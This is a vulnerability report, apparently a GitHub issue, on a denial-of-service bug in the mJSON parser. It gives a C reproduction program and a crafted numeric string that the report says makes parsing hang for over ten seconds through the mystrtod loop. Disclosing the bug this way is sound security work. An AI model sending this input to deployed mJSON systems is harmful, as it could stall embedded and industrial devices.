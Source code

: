 # Denial of Service in mJSON when parsing certain text

### 1.Introduction

This is a bug related to Expected Behavior Violation in [mJSON][1].

Specifically, we have encountered some cases where mJSON takes an unusually long time (more than 10 seconds) to parse certain text, which is unexpected.

We also tested the same text against other JSON parsers like [cJSON][2] and [json][3]. These parsers were able to parse the text quickly and without any problems.

*potential effect*: This may lead to some unexpected errors, e.g., Denial Of Service.
[mjson][1] is specifically designed to operate on resource-constrained embedded devices, such as microcontrollers used in critical systems like Industrial Control Systems. Any delay in parsing important data could have catastrophic consequences in such scenarios.


### 2.Trigger the bug


+ Running environment
	* OS: Ubuntu (e.g., Ubuntu 18.04, 16.04, 22.04)

+ Source code required
	* `mjson.c`, `mjson.h` from https://github.com/cesanta/mjson and a `test.c` (see below)

+ Steps

	+ Prepare a `test.c` file
		```
		#include <stdio.h>  
		#include "mjson.h"

		int main() {
		    char *s = "8891110122900e913013935755114";
		    int ret = mjson(s, (int) strlen(s), NULL, NULL);
		    printf("res:%d\n", ret);
		    return 0;
		}
		```
		
	+ File structure (in the same directory)
		```
		- mjson.c
		- mjson.h
		- test.c
		```
	+ Compile and Run
		```
	 	clang test.c mjson.c -o test
	 	./test
		```
		It is evident that the process takes an unusually long time to complete. One can verify this by running the command `time ./test` to see the duration of the process.


	+ Analysis
		Based on our analysis, we found that the root cause of the bug is an error in implementing of the function `mystrtod`. More specifically, the loop within the function has a total of 1,622,094,001 iterations.
		


[1]: https://github.com/cesanta/mjson
[2]: https://github.com/DaveGamble/cJSON
[3]: https://github.com/nlohmann/json


